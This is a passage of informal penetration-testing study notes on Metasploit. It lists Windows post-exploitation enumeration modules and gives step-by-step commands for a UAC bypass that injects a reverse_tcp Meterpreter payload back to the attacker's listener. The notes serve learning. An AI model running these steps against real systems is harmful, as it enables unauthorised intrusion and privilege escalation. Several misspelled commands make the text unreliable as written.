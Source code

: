         - `set session <number of session>` && `run`
        
          
        
    - `search checkvm` && `use post/windows/gather/checkvm` ⇒ to check if the target system on vm or not
        - `set session <number of session>` && `run`
    
      
    
    - `search enum_applications` && `use post/windows/gather/enum_applications` ⇒ to see what programs installed on the target
        
        - `set session <number of session>` && `run`
        
          
        
    - `search enum_av` && `use post/windows/gather/enum_av_excluded` ⇒ to identify what av are intalled and what dir being scanned by the av and what file exten will be scanned
        - `set session <number of session>` && `run`
    
      
    
    - `search enum_computers` && `use post/windows/gather/enum_computers` ⇒ to identify if target computers are part of admin zone or not
        
        - `set session <number of session>` && `run`
        
          
        
    - `search enum_patches` && `use post/windows/gather/enum_patches` ⇒ to enum the applied patches modules on target
        - `set session <number of session>` && `run`
    
      
    
    - `search enum_shares` && `use post/windows/gather/enum_shares` ⇒ to enum what shres the target have
        - `set session <number of session>` && `run`
    

  

- ==Windows Privilege Escalation: Bypassing UAC==

> ==User Account Control ( UAC )== ⇒ is a security windows feature , used to prevent unauthorized changes from being made

[https://th.bing.com/th/id/OIP.tZGl8-hazULJRMFpua687QAAAA?w=214&h=171&c=7&r=0&o=5&dpr=1.5&pid=1.7](https://th.bing.com/th/id/OIP.tZGl8-hazULJRMFpua687QAAAA?w=214&h=171&c=7&r=0&o=5&dpr=1.5&pid=1.7)

> if u are a basic user , when u hit yes then the system will ask for an admin password to processed your request .

> ==_To do that we need a x64 meterpreter payload_==

- ==_Exploit UAC_==
    
    - AFTER we exploit a service and get a meterpreter session , if we see that we have just a admin privs , and we need to Escalat our privs , we can see if we try to execute some command need a administrater privis we will get a massage “access denied “
    - `getprivis` ⇒ to see our privis && `shell` && `net user` ⇒ to get the user on system && `net localgroup administrater` ⇒ to see if we are part of administarter zone ( this a imp step , if we are part we can bypass the uac and get what we want
    - `search bypassuac` && `use exploit/windows/local/bypassuasc_injection`
    - `set payload windows/x64/meterpreter/reverse_tcp` && `set session <session number>` && `set lhost` && `set lport 1234` && `set target windows\x64` && `run` ⇒ ==_so here we will bypass the UAC by inject our payload to a process in memory , so that will make another meterpreter session to us but in the newest session the UAS flag will be a false ( UAC disabled )_==
    
